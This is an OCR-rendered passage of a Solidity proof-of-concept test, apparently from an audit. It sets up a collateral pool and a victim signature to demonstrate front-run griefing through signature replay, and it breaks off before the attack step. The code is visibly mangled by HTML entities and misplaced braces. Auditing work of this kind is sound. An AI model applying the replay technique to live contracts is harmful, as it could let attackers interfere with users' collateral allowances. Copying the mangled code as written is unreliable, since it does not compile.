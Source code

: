 ```
function accountCollateralizableTokenAllowances(
    address account,
    address collateralizable,
    address token
) external view returns (uint256);

function COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH() 
    external view returns (bytes32);

function nonces(address owner, bytes32 signatureType) 
    external view returns (uint256);

function getHashTypedDataV4(bytes32 structHash) 
    external view returns (bytes32);
```

}

contract TimeBasedCollateralPool { ICollateral public immutable collateral; constructor(address \_collateral) { collateral = ICollateral(\_collateral); }

```
function stake(
    address _token,
    uint256 _amount,
    bytes calldata _collateralizableApprovalSignature
) external returns (uint256) {
    if (_collateralizableApprovalSignature.length &gt; 0) {
        collateral.modifyCollateralizableTokenAllowanceWithSignature(msg.sender, address(this), _token, int256(_amount), _collateralizableApprovalSignature);
    }
    return _stake(_token, _amount);
}

function _stake(address _token, uint256 _amount) internal returns (uint256) {
    return _amount;
}
```

}

contract SignatureReplayTest is Test { CollateralVault public vault; address public victim; uint256 public victimPrivateKey; address public token; TimeBasedCollateralPool public pool;

```
function setUp() public {
    vault &#x3D; new CollateralVault();
    
    // Setup victim account
    victimPrivateKey &#x3D; 0xA11CE;
    victim &#x3D; vm.addr(victimPrivateKey);
    token &#x3D; makeAddr(&quot;token&quot;);
    
    pool &#x3D; new TimeBasedCollateralPool(address(vault));
    vault.setCollateralizableContracts(address(pool), true);

}

function testFrontRunGriefing() public {
    int256 allowanceAdjustment &#x3D; 100;
    
    // Generate signature using L1 vault parameters
    bytes memory signature &#x3D; _generateSignature(
        vault,
        victim,
        address(pool),
```